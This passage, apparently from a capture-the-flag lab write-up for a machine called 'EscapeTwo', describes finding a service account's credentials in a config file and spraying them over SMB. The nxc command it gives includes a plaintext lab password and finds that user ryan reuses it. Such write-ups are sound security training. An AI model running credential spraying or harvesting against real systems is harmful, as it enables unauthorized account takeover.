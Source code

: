 ## From sql_svc to ryan

Exploring the filesystem using the sql_svc account, under the path:
```text
C:\SQL2019\ExpressAdv_ENU
```

We have a config file that reveals the credentials of the sql_svc user:

![](/assets/EscapeTwo/EscapeTwo-sqlsvccreds.png)

Spraying this credentials we discover that the same password is used by the user ryan:

```bash
nxc smb 10.10.11.51 -u users -p 'WqSZAF6CysDQbGb3' --continue-on-success
```

![](/assets/EscapeTwo/EscapeTwo-RyanUser.png)
